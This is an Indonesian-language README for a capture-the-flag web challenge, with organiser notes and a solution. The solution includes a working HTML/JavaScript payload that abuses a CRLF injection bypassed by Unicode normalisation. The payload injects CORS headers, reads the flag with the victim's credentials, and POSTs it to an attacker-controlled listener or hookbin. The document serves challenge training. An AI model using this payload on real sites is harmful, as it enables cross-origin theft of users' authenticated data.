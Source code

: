 # l333t

## Description
Are you one of the l333t person ?<br>
<br>
Author : Yeraisci

## Notes to Panitia
- Btw, ini soal CRLF plus CORS
- Peserta gadikasih berkas apapun, cuma link ke webservice
- Tinggal docker compose up gan, portnya menyesuaikan
- Terserah mau buat quals apa final
- Di file *leet_code/visit.js*, di line 8 diganti ke ip webservice pas deploy

## How to Solve ?
- Di endpoint flag, ada vuln CRLF, tapi \r\n udah di encode url, jadi ceritanya bypass pake unicode yang ntar di server ke-normalize jadi \r\n
- Referensi diatas ada di : https://hackerone.com/reports/52042
- Karena limitasi gabisa ngewrite body, jadi intended solution nya nge-enable CORS (ACAL sama ACAC) supaya bisa ngeleak response http
- Jadi karena ada fitur bisa submit link wu bb "yang nantinya akan direview", maka linknya diganti ke link webservice yang dikontrol user
- Di webservice, kira-kira ngehost payload kayak ini :
```html
<p>EXPLOIT CRLF + CORS POC</p>
<script>
  var xmlHttp = new XMLHttpRequest();
  xmlHttp.open("GET", "http://<IP:PORT PAS DEPLOY>/flag?user=2asd%E5%98%8D%E5%98%8AAccess-Control-Allow-Origin%E5%98%BA*%E5%98%8D%E5%98%8AAccess-Control-Allow-Credentials%E5%98%BAtrue", false ); 
  xmlHttp.withCredentials = true ; 
  xmlHttp.send( null ); 
  var collect = new XMLHttpRequest(); 
  var sent_url = "<IP:PORT SERVER LISTENER>"; 
  var params = "boom=" + xmlHttp.responseText;
  collect.open("POST", sent_url, true);
  collect.setRequestHeader('Content-type', 'text/plain');
  collect.send(params);
</script>
```
- Atau bisa juga lempar ke hookbin kalau gamau repot di sent_url nya
- Kirim link yang nge-host payload diatas di section submit wu
- Terus tinggal liat di listenernya, dapet flag
